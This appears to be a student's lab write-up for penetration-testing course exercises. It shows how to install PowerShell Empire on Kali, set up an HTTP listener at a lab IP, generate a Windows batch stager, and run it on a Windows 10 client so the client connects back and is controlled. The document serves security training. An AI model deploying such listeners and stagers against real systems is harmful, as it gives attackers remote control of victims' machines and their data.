










### 23.1.3.1 Exercises
#### 1. Install and start PowerShell Empire on your Kali system.

The official GitHub for this is no longer maintained but a maintained fork is available at https://github.com/BC-SECURITY/Empire.git

1. Clone the repository with git in the /opt/ directory

   ```bash
   cd /opt
   sudo git clone https://github.com/BC-SECURITY/Empire.git
   ```

2. Run the setup script:

   ```bash
   cd /opt/Empire/setup
   sudo ./install.sh
   ```

   Note:  This prompted for a server negotiation password.  I just pressed enter to generate a random password since this is a stand-alone environment.

3. Run PowerShell Empire.  You MUST run it from the Empire directory so it can locate the Database

   ```bash
   cd /opt/Empire/
   sudo ./empire
   ```

   

#### 2. Create a PowerShell Empire listener on your Kali machine and execute a stager on your Windows 10 client.

1. Began with setting up a listener context

   ```bash
   listeners
   ```

2. Chose a listener to use to enter a context for that particular listener module.  

   ```bash
   uselistener http
   ```

3. Setup options for the listener

   ```bash
   set Host 192.168.119.216
   set Port 8000
   ```

   

4. Started the listener

   ```bash
   execute
   ```

   

5. After setting up a listener, returned to the previous context menu

   ```bash
   back
   ```

6. Chose a stager to use:

   ```bash
   usestager windows/launcher_bat
   ```

7. Assigned the listener that was just created to this stager and executed to produce the stager batch file.

   ```bash
   set Listener http
   execute
   ```

   
   
8. Transferred the stager to Windows 10 and ran it to get a connection to the listener:
   
   

#### 3. Experiment with the PowerShell Empire agent and its basic functionality

- SysInfo
  
- Spawning a new agent (Mr. Smith)
  
- Run calc.exe using shell
  
- Download a file
  